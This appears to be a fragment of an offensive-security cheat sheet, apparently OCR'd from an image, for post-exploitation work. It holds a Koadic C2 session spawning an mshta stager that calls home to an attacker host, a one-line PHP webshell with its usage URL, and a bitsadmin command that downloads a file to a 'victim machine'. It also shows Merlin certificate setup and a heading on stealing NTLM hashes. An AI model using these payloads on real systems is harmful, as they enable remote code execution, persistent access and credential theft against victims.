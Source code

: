 $ cd merlin/data/x509
$ openssl req -x509 -newkey rsa:4096 -sha256 -nodes -keyout server.key -out server.crt -subj "/CN=lab.com" -days 365
Koadic
$ cd koadic
$ ./koadic
                           / \
     _                   _ | |
    | | _____   __ _  __| || |  ___
    | |/ / _ \ / _` |/ _` ||.| / __|
    |   / (o) | (_| | (_| ||.|| (__
    |_|\_\_^_/ \__,_|\__,_||:| \___|
                           |:|
                        ~\==8==/~
                            8
                            O

        -{ COM Command & Control }-
      Windows Post-Exploitation Tools
             Endless Intellect

            ~[ Version:  0xA ]~
            ~[ Stagers:    5 ]~
            ~[ Implants:  33 ]~

(koadic: sta/js/mshta)$ info

        NAME        VALUE               REQ     DESCRIPTION     
        -----       ------------        ----    -------------   
        SRVHOST     192.168.1.11        yes     Where the stager should call home
        SRVPORT     9999                yes     The port to listen for stagers on
        EXPIRES                         no      MM/DD/YYYY to stop calling home
        KEYPATH                         no      Private key for TLS communications
        CERTPATH                        no      Certificate for TLS communications
        MODULE                          no      Module to run once zombie is staged

(koadic: sta/js/mshta)$ set SRVPORT 1245
[+] SRVPORT => 1245
(koadic: sta/js/mshta)$ run 
[+] Spawned a stager at http://192.168.1.11:1245/c26qp
[!] Don't edit this URL! (See: 'help portfwd')
[>] mshta http://192.168.1.11:1245/c26qp

PHP Tiny Webshell
<?= ($_=@$_GET[0]).$_(@$_GET[1]);
http://127.0.0.1/shell.php?0=system&1=ls

Donwload file to the victim machine
bitsadmin  /transfer mydownloadjob  /download  /priority normal  ^http://example.com/filename.zip  C:\Users\username\Downloads\filename.zip
Internal Monolog
Retrieving NTLM Hashes without Touching LSASS
